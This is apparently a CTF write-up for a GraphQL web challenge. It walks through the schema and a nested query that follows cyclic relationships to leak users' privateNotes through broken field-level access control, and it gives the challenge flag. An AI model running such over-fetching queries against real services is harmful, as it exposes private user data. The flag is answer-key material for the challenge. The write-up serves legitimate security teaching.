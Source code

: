 # Writeup

Given chall description is quite simple to check is the web app expose GraphQL enpoint:
```
https://brunner-s-bakery.challs.brunnerne.xyz/graphql
```

You have a single endpoint usually `/graphql` and you send a query that describes exactly the data you want.

The server resolves relationships (joins, nested fields) and gives you exactly that shape in one response.

This is an example of a query:

```
query {
  publicRecipes {
    name
    author { username }
  }
}
```

If developers don’t enforce access controls per field, you can ask for too much: private or admin-only fields that exist in the schema but were never meant for you.

This is called over-fetching/broken access control in GraphQL.

## Step 0 - Schema info

From the schema we see three root queries:

```
type Query {
  publicRecipes: [Recipe!]!
  secretRecipes: [Recipe!]!
  me: User
}
```

Normally only `publicRecipes` should be accessible without login.

## Step 1 – First Queries

Start with a safe query:

```
query {
  publicRecipes {
    name
    author {
      username
    }
  }
}
```

## Step 2 – Chaining Relationships

From the schema we noticed cyclic relationships:

- `Recipe → author: User`
- `User → recipes`
- `Recipe → ingredients → supplier → owner: User`

```
query {
  publicRecipes {
    author {
      username
      recipes {
        name
        ingredients {
          name
          supplier {
            owner {
              username
              privateNotes
            }
          }
        }
      }
    }
  }
}
```

And it worked, leaking even `privateNotes`, which should never be public.

## Step 3 – Impact

Sensitive user information exposed (emails, notes, privateNotes).

## Flag

```
brunner{Gr4phQL_1ntR0sp3ct10n_G035_R0UnD_4Nd_r0uND}
```
